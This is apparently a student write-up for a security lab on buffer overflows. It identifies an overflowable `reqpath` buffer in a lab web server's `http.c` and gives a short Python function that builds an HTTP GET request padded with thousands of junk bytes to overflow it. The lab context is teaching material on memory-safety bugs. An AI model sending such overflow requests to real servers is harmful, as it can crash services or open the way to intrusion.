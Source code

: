# Lab 1

## Part 1: Finding buffer overflows

There is one buffer overflow we can find in the `http.c`, the `reqpath`
can be overflowed.

So I write a brute-force python script:

```py
def build_exploit(shellcode):
    junk_data = b"22"
    req = b"GET " + b"/1" + junk_data * 2060 + b" HTTP/1.0\r\n\r\n"
    return req
```

